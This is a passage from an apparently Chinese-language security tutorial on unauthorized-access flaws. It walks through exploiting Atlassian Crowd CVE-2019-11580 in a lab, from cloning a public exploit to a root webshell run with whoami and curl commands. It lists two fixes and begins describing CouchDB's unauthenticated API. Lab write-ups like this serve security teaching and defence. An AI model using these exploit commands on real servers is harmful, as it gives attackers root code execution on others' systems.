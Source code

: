 执行“Set up Crowd”

![image-20200708113709624](/images/Unauthorized/image-20200708113709624.png)

申请30天试用[license](https://my.atlassian.com/products/index)

```shell
https://my.atlassian.com/license/evaluation?utm_nooverride=1&product=Crowd&version=3.4.3&sid=Server ID&ref=prod
```

![image-20200708120448211](/images/Unauthorized/image-20200708120448211.png)

如下图所示：安装成功

![image-20200708133857021](/images/Unauthorized/image-20200708133857021.png)

1、未授权测试

```shell
➜  Atlassian git clone https://github.com/jas502n/CVE-2019-11580.git
➜  CVE-2019-11580 git:(master) sudo python CVE-2019-11580.py http://172.16.144.135:8095/
http://172.16.144.135:8095//crowd/admin/uploadplugin.action

Installed plugin /root/atlassian-crowd-3.4.3/apache-tomcat/temp/plugindev-3858334950456985130rce.jar

>>>Get Webshell			//已经getshell

http://172.16.144.135:8095//crowd/plugins/servlet/exp?cmd=whoami

Exec command= whoami

Result= root
```

![image-20200708134835246](/images/Unauthorized/image-20200708134835246.png)

```shell
➜  CVE-2019-11580 git:(master) curl http://172.16.144.135:8095//crowd/plugins/servlet/exp\?cmd\=id
```

##### 漏洞修复

1、设置访问/crowd/admin/uploadplugin.action的源ip

2、版本升级

#### CouchDB 未授权访问漏洞

##### 漏洞描述

​	Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）,默认会在`5984`端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。
